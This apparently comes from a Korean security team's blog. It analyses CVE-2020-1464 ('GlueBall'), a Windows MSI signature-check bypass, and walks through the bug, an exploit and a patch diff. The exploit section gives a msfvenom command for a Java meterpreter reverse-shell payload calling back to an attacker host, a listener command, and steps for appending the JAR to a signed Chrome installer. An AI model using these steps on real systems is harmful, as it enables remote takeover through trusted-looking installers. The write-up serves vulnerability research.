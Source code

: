 ```yaml
---
title: "[Research] CVE-2020-1464: GlueBall"
author: L0ch
tags: [L0ch, cve, msi, code signing certificate, jar, glueball]
categories: [Research]
date: 2020-11-01 18:00:00
cc: true
index_img: /2020/11/01/L0ch/cve-2020-1464/img8.png
---
```



안녕하세요! 글 쓰는 걸 미루고 미루다 idioth 팀장님의 구박에 겨우겨우 첫 글을 쓰는 L0ch입니다. 

~~악덕 상사 우우 길 가다 레고 블록이나 밟아라~~ 

오늘은 Windows의 취약점 하나를 들고 왔는데요, 함께 보실까요? 



# 개요

GlueBall이라고 불리는 CVE-2020-1464는 2018년 9월에 제보되었습니다. 근데 마소 친구들이 패치 안 하고 있다가 2년이 지난 최근 patch tuesday라고 불리는 정기 패치에서 패치가 되었...? 왜 지금 와서???

![](cve-2020-1464/img1.png)

이상하긴 하지만... 넘어가도록 하고 취약점을 이해하는데 필요한 배경 지식부터 알아보도록 합시다!

# MSI (Microsoft Installer)

Windows 설치 패키지 
→ Windows용 애플리케이션의 설치 및 업데이트를 배포하는 데 사용됩니다.

![](cve-2020-1464/img2.png)

오늘의 희생양(ㅎㅎ)이 될 우리 크롬 어서 오고. 
크롬도 MSI로 배포되는 것을 알 수 있습니다. malicious 하게 꾸며줄 테니 조금만 기다리라구~

# Code Signing Certificate(코드 서명 인증서)

> **Code Signing Certificate**
> MS가 도입한 실행파일과 스크립트의 디지털 서명 과정으로, 이러한 인증서는 파일이 안전한 파일임을 증명해준다. SmartScreen filter는 인증서에 대한 자체적인 white list DB를 관리해 해당 인증서가 안전한지 아닌지 
> 판단한다. 인증서가 존재하지 않거나 파일이 변조되어 인증서가 유효하지 않으면 실행할 때 경고를 띄워 
> 사용자에게 알린다.

![](cve-2020-1464/img3.png)

코드 서명 인증서가 도입되면서, 인증서가 확인되지 않은 파일의 무분별한 실행이 줄었습니다. 그러나 여기서 끝나면 섭섭하죠? 유효하지 않은 인증서임에도 인증서 검증을 우회할 수 있는 취약점이 발견되었는데 이것이 오늘 설명할 GlueBall입니다.

# GlueBall : CVE-2020-1464

## Vulnerability

취약점은 MSI 파일의 인증서 검증 과정에서 발생합니다. 

MSI 파일을 실행하면 `msisip.dll`의 `MsiSIPVerifyIndirectData()` 함수에서 파일의 시작 부분이 유효한 MSI 파일인지 검증하고 서명을 확인합니다.

![](cve-2020-1464/img4.png)

그런데 이때 파일의 사이즈를 검증하지 않아 MSI 파일의 뒤에 임의의 데이터가 추가되어도 유효한 인증서라고 판단하게 되고, 공격자는 이를 이용해 인증서 검증을 우회하고 malicious 파일을 실행하도록 할 수 있습니다.

## JAR(Java Archive)

![](cve-2020-1464/img5.webp)

JAR은 자바 플랫폼 배포를 위한 패키지 파일 포맷입니다. 
특징으로는 zip 포맷으로 빌드되어 자바 런타임에서 로드될 때 파일의 끝에서부터 로드됩니다.

→ 파일 앞에 임의의 데이터가 있어도 정상 실행이 가능합니다.

슬슬 감이 올락 말락 하죠??

## Exploit

앞서 나온 취약점과 JAR 파일의 특성을 조합하면..?

**MSI 파일 끝에 임의 데이터가 와도 유효한 인증서가 되는 취약점 + 파일 앞에 임의의 데이터가 있어도 정상 실행되는 jar**

축하합니다! 익스플로잇 시나리오가 완성되었습니다!

그림으로 정리하면 다음과 같습니다.

![출처:https://www.securityinbits.com/malware-analysis/interesting-tactic-by-ratty-adwind-distribution-of-jar-appended-to-signed-msi/](cve-2020-1464/img6.png)

만능 메타스플로잇으로 리버스 쉘 malicious 파일을 생성해서 익스를 해볼게요.

msfvenom으로 리버스 쉘을 여는 jar포맷의  malicious 파일을 생성합니다.

```markdown
msfvenom -p java/meterpreter/revserse_https LHOST=[HOST IP] -f jar -o [filename].jar
```

![](cve-2020-1464/img7.png)

리스너도 미리 열어두겠습니다.

```markdown
handler -p java/meterpreter/reverse_https -H 0.0.0.0 
```

![](cve-2020-1464/img8.png)

생성된 jar 파일과 크롬 설치 msi 파일을 합칩니다. 이때 꼭 msi파일 뒤에 jar 파일이 오도록 순서를 지켜야 한다는 점!

![](cve-2020-1464/img9.png)

이제 생성된 exploit.jar 에서 인증서가 유효한지 확인해보면

![](cve-2020-1464/img10.png)

요렇게 유효한 인증서로 나오는 것을 볼 수 있습니다. 

실행을 해보면 피해 PC에서는 아무 반응도 없지만, 프로세스에서는 자바가 돌아가고 있고

![](cve-2020-1464/img11.png)

위 사진과 같이 리버스 쉘이 정상적으로 동작하는 걸 볼 수 있습니다!

## Patch diffing

MS는 이에 대한 패치를 내놨는데요, 어떻게 패치를 했는지 패치 이후의 msisip.dll를 구해 비교해보겠습니다.



> 💡주의! 글쓴이의 삽질이 담겨 있습니다.



않이 근데.. 이거 익스하고 글 좀 쓰고 디핑 하려고 보니까 그새 윈도우가 업데이트를 해버렸네..?

![](cve-2020-1464/img12.jpg)

아 ** 

- 자동 업데이트 안 끔
- 스냅샷 안 만들어놓음

→ 패치 전의 msisip.dll 못 구함 → ?????????

윈도우 원데이 분석할 땐 자동 업데이트는 꼭 끄도록 해요....... 아니면 스냅샷이라도...

패치 전의 msisip.dll을 어떻게 구하지? 어떻게 구하긴 조진 거지 ㅋㅋ

![](cve-2020-1464/img13.png)

엿같은 자동 업데이트 덕분에 던질 뻔했지만..^^ 
결국 idioth형 vm에 패치 전 파일이 있어서 그거 구걸해서 디핑 해버렸지요. 팀장님 최고 ~
넘겨주는 대신 리제로 정주행 하라는 협박은 못 들은 걸로 하겠습니다; 

![](cve-2020-1464/img14.png)

회색 노드는 새로 추가된 코드, 노란색 노드는 변경된 노드입니다.

![](cve-2020-1464/img15.png)

회색 노드를 보면 `MsiSIPVerifyIndirectData()` 함수에서 `NeedFileSizeVerification()` 과 `VerifyFileSize()` 를 호출하는 코드가 추가된 것을 보아 MSI 파일의 사이즈를 확인하는 코드를 추가해 취약점 패치를 한 것을 알 수 있습니다.



취약점 분석이랑 익스 하는 것보다 디핑 하는데 시간을 훨씬 많이 썼네요...^^ 이  과정을 개선할 여지가 있을 것 같아 다음 글은 디핑과 관련된 연구 주제 일 것 같습니다.  이거 하느라 윈도우 vm만 5개 만든 건 안 비밀 ^.^ 

그럼 다음 글로 돌아올게요 안녕!